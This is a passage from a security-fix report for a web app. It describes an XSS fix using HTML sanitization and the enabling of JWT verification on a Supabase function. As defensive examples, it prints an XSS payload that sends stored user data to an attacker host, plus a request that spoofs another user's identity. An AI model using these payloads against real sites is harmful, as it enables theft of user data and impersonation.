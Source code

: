 **Attack Vector:**
```javascript
// Malicious user sends:
<script>fetch('https://attacker.com/steal', {
  method: 'POST',
  body: localStorage.getItem('friendle_user')
})</script>
```

**Fix:**
- Added `sanitizeHTML()` function that escapes all HTML special characters
- Updated `appendMessageToContainer()` to sanitize message content and sender names
- Updated `appendMessage()` to sanitize all user-generated content

**Files Changed:**
- `index.html:8572-8579` - New sanitization function
- `index.html:8645-8646` - Sanitize in appendMessageToContainer
- `index.html:8726-8729` - Sanitize in appendMessage

**Test Result:** ✅ Sending `<script>alert('XSS')</script>` displays as text, no execution

---

### 3. JWT Verification Enabled ✅

**Problem:** `stay-interested` Edge Function had `verify_jwt = false`, allowing user impersonation.

**Attack Scenario:**
```javascript
// Attacker spoofs any user:
await fetch('https://[project].supabase.co/functions/v1/stay-interested', {
  method: 'POST',
  body: JSON.stringify({
    matchId: 'target-match',
    profileId: 'victim-user-id'  // Can spoof anyone!
  })
});
```

**Fix:**
- Set `verify_jwt = true` in `supabase/config.toml`
- Added JWT verification in `stay-interested/index.ts`
- Validates Authorization header
- Verifies user identity from token
- Ensures `user.id === profileId` before allowing updates

**Files Changed:**
- `supabase/config.toml` - Enabled JWT verification
- `supabase/functions/stay-interested/index.ts` - Added auth validation logic

---

## 🧪 Security Testing Results

All tests performed after fixes:
